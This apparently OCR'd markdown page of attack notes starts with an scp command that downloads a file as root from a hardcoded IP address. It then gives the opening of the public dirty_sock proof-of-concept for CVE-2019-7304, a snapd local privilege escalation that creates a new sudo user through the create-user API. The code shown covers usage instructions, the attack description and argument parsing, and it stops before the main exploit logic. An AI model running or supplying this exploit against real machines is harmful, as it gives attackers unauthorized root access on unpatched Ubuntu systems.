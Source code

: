 ## ssh download
scp root@51.254.114.246:/home/tmp/tmp .

## (CVE-2019-7304)提权

```python

#!/usr/bin/env python3
#snapd < 2.37
#python3
#ssh-keygen -t rsa -C "111@qq.com"
#cat ~/.ssh/id_rsa.pub#add to `https://login.ubuntu.com/`
#python3 poc.py -u "3385516880@qq.com" -k "../.ssh/id_rsa.pub"
"""
Local privilege escalation via snapd, affecting Ubuntu and others.
v1 of dirty_sock leverages the /v2/create-user API to create a new local user
based on information in an Ubuntu SSO profile. It requires outbound Internet
access as well as the SSH service running and available from localhost.
Try v2 in more restricted environments, but use v1 when possible.
Before running v1, you need to:
    - Create an Ubuntu SSO account (https://login.ubuntu.com/)
    - Login to that account and ensure you have your public SSH key configured
      in your profile.
Run exploit like this:
    dirty_sock.py -u <account email> -k <ssh priv key file>
A new local user with sudo rights will be created using the username from your
Ubuntu SSO profile. The SSH public key will be copied into this users profile.
The exploit will automatically SSH into localhost when finished.
Research and POC by initstring (https://github.com/initstring/dirty_sock)
"""

import argparse
import string
import random
import socket
import re
import sys
import os

BANNER = r'''
      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)
//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//
'''


def process_args():
    """Handles user-passed parameters"""
    parser = argparse.ArgumentParser()
    parser.add_argument('--username', '-u', type=str, action='store',
                        required=True, help='Your Ubuntu One account email.')
    parser.add_argument('--key', '-k', type=str, action='store',
                        required=True, help='Full path to the ssh privkey'
                        ' matching the pubkey in your Ubuntu One account.')

    args = parser.parse_args()
```